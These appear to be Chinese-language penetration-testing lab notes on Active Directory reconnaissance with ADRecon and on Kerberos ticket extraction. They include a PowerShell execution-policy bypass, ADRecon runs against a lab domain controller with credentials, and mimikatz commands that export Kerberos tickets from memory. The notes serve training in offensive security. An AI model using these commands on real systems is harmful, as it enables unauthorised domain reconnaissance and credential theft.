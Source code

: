 Day5
===
ADRecon
---
    AD由三個部分組成
    目錄分割區
    設定檔
    Schema資料庫結構
![image](https://github.com/user-attachments/assets/5f241d92-cbbd-4673-9652-2120ee57b018)
![image](https://github.com/user-attachments/assets/2a14572d-8f90-4533-835c-513a9945791e)

    蒐集AD資訊，下載ADRecon工具
[ADRecon工具](https://github.com/adrecon/ADRecon)
![image](https://github.com/user-attachments/assets/b3735d89-1269-4271-a994-8b2bb5b57117)

    執行powershell&ADRecon.ps1
    powershell.exe  -nop –ep bypass
    -nop:PowerShell 在啟動時不讀取任何配置文件，包括使用者配置文件。
    -ep: -ExecutionPolicy Bypass 的簡寫
    > in Domain
    ./adrecon.ps1
    > OR Not in Domain
    ./adrecon.ps1 -DomainController 192.168.177.19 –OutputType ALL -Credential lpt.com\cpent
    > OR
    ./adrecon.ps1 -DomainController 192.168.177.19 –OutputType HTML -Credential lpt.com\cpent
![image](https://github.com/user-attachments/assets/63813ab0-0e04-42ef-8f18-86b36605c65a)
![image](https://github.com/user-attachments/assets/12ddffa2-2bf4-4b03-871f-b53ef80c8687)

Export Kerberos Tickets
---
    使用mimikatz工具
    mimikatz
    privilege::debug
    sekurlsa::tickets /export
![image](https://github.com/user-attachments/assets/325d960d-dbe1-4dd5-8533-3b9b4fa6ccc9)

